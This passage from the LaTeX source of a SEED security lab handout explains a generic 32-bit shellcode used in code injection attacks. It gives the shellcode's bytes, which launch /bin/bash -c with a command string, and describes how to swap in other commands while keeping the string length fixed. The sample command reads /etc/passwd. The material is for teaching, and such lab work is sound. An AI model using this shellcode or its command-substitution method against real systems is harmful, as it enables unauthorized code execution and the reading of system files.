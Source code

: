 

Shellcode is typically used in code injection attacks.
It is basically a piece of code that launches a shell, and
is usually written in assembly languages.
In this lab, we only provide the binary version of a generic shellcode,
without explaining how it works, because it is non-trivial.
If you are interested in how exactly shellcode works, and
want to write a shellcode from scratch, you
can learn that from a separate SEED lab called \textit{Shellcode Lab}.
Our generic shellcode is listed in the following (we only list
the 32-bit version):

\begin{lstlisting}[language=python]
shellcode = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"                                                     (*@\ding{202}@*)
   "-c*"                                                            (*@\ding{203}@*)
   "/bin/ls -l; echo Hello; /bin/tail -n 2 /etc/passwd        *"    (*@\ding{204}@*)
   # The * in this line serves as the position marker         *
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')
\end{lstlisting}

The shellcode runs the \texttt{"/bin/bash"} shell program (Line~),
but it is given two arguments, \texttt{"-c"} (Line~) and
a command string (Line~). This indicates that the shell program
will run the commands in the second argument.
The \texttt{*} at the end of these strings is only a placeholder,
and it will be replaced by
one byte of \texttt{0x00} during the execution of the shellcode. 
Each string needs to have a zero at the end, but we cannot put 
zeros in the shellcode. Instead, we put a placeholder at the end of each string, 
and then dynamically put a zero in the placeholder during the 
execution. 

If we want the shellcode to run some other commands,
we just need to modify the command string in Line~.
However, when making changes, we need to
make sure not to change the length of this string, because the
starting position of the placeholder for the \texttt{argv[]} array,
which is right after the command string,
is hardcoded in the binary portion of the shellcode. If
we change the length, we need to modify the binary part.
To keep the star at the end of this string at the same position,
you can add or delete spaces.


